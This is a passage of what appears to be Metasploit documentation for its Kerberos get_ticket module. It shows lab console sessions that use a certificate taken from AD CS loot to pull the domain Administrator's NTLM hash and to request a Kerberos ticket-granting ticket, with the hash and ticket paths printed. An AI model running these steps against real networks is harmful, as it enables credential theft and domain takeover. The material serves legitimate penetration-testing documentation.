 ```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_hash rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Running module against 172.30.239.85

[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_324339.bin
[*] 172.30.239.85:88 - Getting NTLM hash for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGS-Response
[*] 172.30.239.85:88 - TGS MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_031414.bin
[+] Found NTLM hash for Administrator: aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) >
```

### Getting A Kerberos Ticket
Certificates can be used to issue a Kerberos ticket granting ticket (TGT) which in turn can be used to authenticate to
services such as HTTP, LDAP and SMB. Ticket granting tickets can be requested using the `GET_TGT` action.

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_tgt rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230124173224_default_172.30.239.85_windows.ad.cs_287833.pfx
[*] Running module against 172.30.239.85

[*] 172.30.239.85:88 - Getting TGT for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > klist
Kerberos Cache
==============
host           principal                   sname                             issued                     status  path
----           ---------                   -----                             ------                     ------  ----
172.30.239.85  Administrator@daforest.com  krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-01-24 20:23:54 -0500  valid   /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin

msf6 auxiliary(admin/kerberos/get_ticket) >
```

Once the TGT has been issued, it can be seen in the output of the `klist` command. With the TGT saved, it will
automatically be used in the future to request ticket granting services (TGS) for authentication to specific services.
